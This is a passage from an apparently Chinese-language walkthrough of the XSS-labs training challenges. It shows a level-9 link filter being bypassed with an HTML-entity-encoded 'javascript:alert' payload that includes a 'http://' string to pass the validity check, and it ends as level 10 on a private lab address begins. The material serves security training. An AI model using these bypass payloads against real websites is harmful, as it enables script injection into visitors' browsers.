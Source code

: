 ```php
</form>
</center>';
?>
```

### 测试过滤

```js
<script " 'Oonn>
```

提示

```html
<a href="您的链接不合法？有没有！">
```

没有显示怎么处理的.

![image-20240819215250793](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819215250793.png)

#### 尝试上一关的payload

```js
java&#x73;cript:alert(/xss/)
```

![image-20240819215441849](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819215441849.png)

提示

```js
<a href="您的链接不合法？有没有！">
```

![image-20240819215348751](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819215348751.png)

依旧提示**链接不合法**，换成百度**'http://www.baidu.com'**试试。

### unicode编码+合法链接

```js
java&#x73;cript:alert('http://www.baidu.com')
```

![image-20240819215514000](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819215514000.png)

## level10 隐藏参数+onclick标签+按钮 

### 访问

http://192.168.70.10:8084/level10.php?keyword=well%20done!

![image-20240819220318705](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819220318705.png)
